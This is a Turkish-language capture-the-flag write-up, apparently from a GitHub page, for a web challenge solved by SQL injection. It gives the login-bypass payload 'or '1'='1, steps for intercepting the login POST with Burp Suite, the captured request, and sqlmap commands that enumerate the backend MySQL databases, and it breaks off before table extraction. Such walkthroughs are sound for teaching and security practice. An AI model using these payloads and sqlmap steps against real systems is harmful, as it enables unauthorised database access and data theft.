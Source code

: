 Kullanıcı adı: Yonetici<br>
Şifre: 1'or'1'='1

Olarak sisteme giriş yaptık cevabı deli gibi sitede aradık hatta giriş yaptın bölümündeki değerleri deneyen arkadaşlarımız bile oldu bu soruyu uzun süre yapamadık siteye yapılan ddos saldırıları ve kesintiler aslında bu konuda başımızı baya ağrıttı kimi zaman soruların alanlarınada ulaşamadık herneyse

Burp suiteyi browser ile beraber çalışacak hale getirin( burp suite -> Proxy -> Options(burada 127.0.0.1:8080 var ve tikli ise)
browser(iceweasel) -> preferences -> advanced options -> Connection -> Manual Proxy Connection HTTP Proxy 127.0.0.1 Port 8080 yapın kaydedin.

Burpta intercept off olarak ayarlayın.
Iceweaselda http://85.111.95.37/fc00914149de9f33c30cf0164ec4db95/ açın.

sayfa yüklendikten sonra burpta `intercept ON` yapın.

Kullanıcı adı: Yonetici<br>
Şifre: 'or '1'='1

olarak yollayın.

Burp RAW sekmesinde bir post data yakalamış olacaktır.

```

POST /fc00914149de9f33c30cf0164ec4db95/ HTTP/1.1
Host: 85.111.95.37
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.3.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://85.111.95.37/fc00914149de9f33c30cf0164ec4db95/
Cookie: PHPSESSID=h2041ov1n3ukbfqjmlc0pu7657
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 48

kullaniciadi=Yonetici&parola=%27or%271%27%3D%271
```

ve bu datayı kopyalayın sql2.txt olarak Root Home içersine kayıt edin. yeni terminal açın sqlmap -r sql2.txt -p parola //yazın password kısımının sql injectiona açık olduğunu bulacaktır. çıkan sorulara yes deyin database in `mySQL` olduğunu bulacaktır. Olaylar buradan sonra başlayacak

database adını bulacaksınız. 2 adet database buluyor teki information_sc bunu geçin klasik hepsinde olan diğerdir diğeri ise bizim aradığımız

adı: web2

```
sqlmap -u "http://85.111.95.37/fc00914149de9f33c30cf0164ec4db95" --data="kullaniciadi=Yonetici&parola='or '1'='1" --dbs
```

tabloları çekmek için
